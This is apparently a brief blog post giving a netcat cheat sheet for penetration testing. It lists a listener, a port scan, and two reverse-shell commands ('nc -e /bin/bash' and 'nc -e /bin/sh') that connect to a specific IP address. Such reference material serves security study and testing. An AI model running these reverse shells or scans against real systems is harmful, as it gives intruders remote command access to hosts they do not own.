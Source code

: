 +++
title = 'Cheat Sheet - Netcat'
date = 2023-01-15T09:00:00-07:00
draft = false
tags = ['cheatsheet', 'networking']
+++

Some useful examples of netcat command that could be used for pentesting

<!--more-->

## Useful commands

```shell
# start a listening server
nc -lvp 4444

# connect to the server
nc 91.134.137.25 4444
# connect to the server with bash or shell
nc -e /bin/bash 91.134.137.25 4444
nc -e /bin/sh 91.134.137.25 4444

# basic port scan
nc -v -n 91.134.137.25 1-1000
```

